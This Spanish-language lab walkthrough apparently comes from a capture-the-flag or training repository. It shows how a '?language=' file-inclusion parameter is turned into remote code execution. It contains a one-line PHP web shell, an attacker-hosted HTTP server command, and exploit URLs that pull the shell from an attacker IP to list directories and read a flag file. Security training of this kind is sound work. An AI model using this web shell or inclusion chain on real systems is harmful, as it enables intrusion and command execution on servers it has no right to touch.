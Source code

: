 # LFI: RFI -> RCE 👩‍💻

La página web que vulneraremos es:

![Web.PNG](./assets/05-Quinto/01-web.PNG)

* Vemos el **atributo** `?language=<Archivo>.php` en el cual podemos lograr un LFI y, en este caso, derivarlo a un `RCE` 👩‍💻

---

1. Para comprobar si la página es vulnerable a `RFI`, primero levantaremos un **servidor http** con Python 🐍

```
python3 -m http.server 80
```

2. Realizaremos una petición a nuestro servidor a través del parámetro `?language=http://<IP Atancante>:<Puerto>`

3. Vemos los logs del servidor http.

<p align="center">
    <img src="/assets/05-Quinto/02-RFI.PNG">
</p>

* Notamos que el servidor web vulnerable realiza un petición a nuestro servidor **http**, por lo cual, el servidor web es vulnerable a `RFI` 👩‍💻

---

Creamos un script en php que nos permita ejecutar comandos a través del parámetro `cmd`

* `script.php`

    ```php
    <?php system($_GET['cmd']); ?>
    ```

---

Ahora realizamos la petición a este **script** y listamos los archivos de la `ruta del sistema` 💻

* **URL**: `http://<IP Web>/index.php?language=http://<IP Atacante/script.php&cmd=ls /`

<p align="center">
    <img src="/assets/05-Quinto/03-exercise.PNG">
</p>

`Exercise` es un directorio, así que, lo listaremos 

* **URL**: `http://<IP Web>/index.php?language=http://<IP Atacante/script.php&cmd=ls /exercise`

<p align="center">
    <img src="/assets/05-Quinto/04-flag.PNG">
</p>

---

Por último, leemos el archivo `flag.txt`

* **URL**: `http://<IP Web>/index.php?language=http://<IP Atacante/script.php&cmd=cat /exercise/flag.txt`

<p align="center">
    <img src="/assets/05-Quinto/05-final.PNG">
</p>